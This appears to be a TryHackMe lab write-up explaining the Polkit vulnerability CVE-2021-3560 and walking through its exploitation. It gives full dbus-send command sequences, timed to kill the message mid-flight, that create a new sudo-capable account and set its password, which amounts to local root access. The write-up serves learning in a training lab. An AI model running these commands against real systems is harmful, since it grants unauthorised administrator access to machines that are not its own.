 ```yaml
---
title: 'TryHackMe: Polkit'
date: 2022-02-13 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2022-02-13-tryhackme-polkit.html
author: 100007
---
```


# TryHackMe: Polkit

**author:** Nathan Acks  
**date:** 2022-02-13

# Polkit (CVE-2021-3560)

## Background

CVE-2021-3560 impacted the following distros (at the time of its announcement):

- Red Hat Enterprise Linux 8
- Fedora 21 (or later)
- Debian Testing (“Bullseye”)
- Ubuntu 20.04 LTS (“Focal Fossa”)

Ubuntu fixed with with version 0.105-26ubuntu1.1 of the policykit-1 package (the last vulnerable version was 0.105-26ubuntu1).

This bug is a combination of a race condition and bad error handling. Basically:

- Manually request an action that requires superuser access via DBus.
- Kill `dbus-daemon` _after_ Polkit has received the message but _before_ it responds (there’s the race).
- Polkit requests the user ID associated with the message, but since DBus has restarted it can’t reference the original message ID and responds with an error.
- Polkit mishandles the error, substituting 0 for the ID of the requesting user (there’s the botched error handling).
- Because the requesting user ID now appears to be root, Polkit just goes ahead and takes the action without issuing a challenge.

The race condition is obviously kind of tricky, so best to request something that can perhaps provide some persistence, like the creation of a new user account or changing the password on an existing account.

## Exploitation Process

(0) Construct a message similar to the following:

```
dbus-send \
--system \
--dest=org.freedesktop.Accounts \
--type=method_call \
--print-reply /org/freedesktop/Accounts \
org.freedesktop.Accounts.CreateUser \
string:attacker \
string:"Pentester Account" \
int32:1
```

The three parameters are:

- `string:attacker` - the name of the user to create.
- `string:"Pentester Account"` - the user “description” (GECOS field).
- `int32:1` - grant sudo access to the user.

(1) Begin by determining how long the message takes to execute on the target. This can be done with the `time` command.

```
time dbus-send \
--system \
--dest=org.freedesktop.Accounts \
--type=method_call \
--print-reply /org/freedesktop/Accounts \
org.freedesktop.Accounts.CreateUser \
string:attacker \
string:"Pentester Account" \
int32:1
```

(3) DBus needs to be killed approximately _halfway_ through this execution period. We _cannot_ wait for the application to return, so instead we background it.

```
dbus-send \
--system \
--dest=org.freedesktop.Accounts \
--type=method_call \
--print-reply /org/freedesktop/Accounts \
org.freedesktop.Accounts.CreateUser \
string:attacker \
string:"Pentester Account" \
int32:1 & \
sleep ${TIME}s; kill $!
```

Here `$TIME` is approximately half the time measured in the previous step.

(4) ID the created user.

```
id attacker
```

(5) Create a new password hash for the user.

```
openssl passwd -6 $PASSWORD
```

(6) Pull the same trick as in step 3, but with setting the created user’s password.

```
dbus-send \
--system \
--dest=org.freedesktop.Accounts \
--type=method_call \
--print-reply /org/freedesktop/Accounts/User$UID \
org.freedesktop.Accounts.User.SetPassword \
string:'$PASSWORD_HASH' \
string:'Ask the pentester' & \
sleep ${TIME}s; kill $!
```

Here `$UID` is the user ID retrieved in step 4 (note that there’s _no_ space between `User` and the ID, so you’ll be hitting an endpoint that looks something like `/org/freedesktop/Accounts/User1003`), `$PASSWORD_HASH` is the hash returned in step 5, and `$TIME` is the same timing determined from step 3. The second `string` being passed in the user password hint.

(7) Log in as the new user (probably via `su`).

